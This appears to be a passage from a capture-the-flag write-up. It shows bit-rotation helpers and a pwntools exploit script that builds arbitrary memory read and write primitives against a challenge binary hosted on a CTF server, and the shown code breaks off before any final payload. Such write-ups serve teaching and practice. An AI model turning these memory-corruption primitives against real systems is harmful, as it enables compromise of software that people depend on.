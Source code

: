             <pre><code class="language-python">rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

def encrypt(v, key):
    return list(p64(rol(v ^ key, 0x11, 64)))</code></pre>
        </div>
        <div class="section-content">
            <p>Here’s the full Python script skeleton used to perform the attack:</p>
            <div class="h4-wrapper">
                <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">#!/bin/python3

from pwn import *
memory  = 0x404030

def conn():
    context.arch = 'amd64'
    context.log_level = 'error'
    elf = ELF('./chall', checksec=False)
    libc = ELF('./libc.so.6', checksec=False)    
    is_debug = any(arg.lower() == 'debug' for arg in sys.argv[1:])
    if is_debug:
        p = process('./chall')
    else:
        p = remote('pwn.traboda.net', 54563)
    return p,elf,libc

def banner():print("\n[*] System pwned\n[*] Shell spawned\n[*] Get the flag!")

def write(address, data: list[int],p):
    for i in range(len(data)):
        p.recvuntil(b'Enter date of birth (dd-mm-yyyy) or \'exit\' to quit: ')
        p.sendline(formatter(address + i - memory))
        p.recvuntil(b'Read (r) or Write (w)?')
        p.sendline(b'w')
        p.recvuntil(b'Enter character to write: ')
        p.sendline(str(data[i]).encode())

def read(where, length, p):
    leak = 0
    for i in range(length):
        try:
            p.recvuntil(b'Enter date of birth (dd-mm-yyyy) or \'exit\' to quit: ')
            p.sendline(formatter(where + i))
            p.recvuntil(b'Read (r) or Write (w)?')
            p.sendline(b'r')
            response = p.recvline(timeout=5)
            leak = int(response.decode().split(':')[1].strip()) << 8*i | leak
        except EOFError:
            print(f"Error reading address: {hex(where + i)}")
            break  # Or handle the error as needed
    return leak
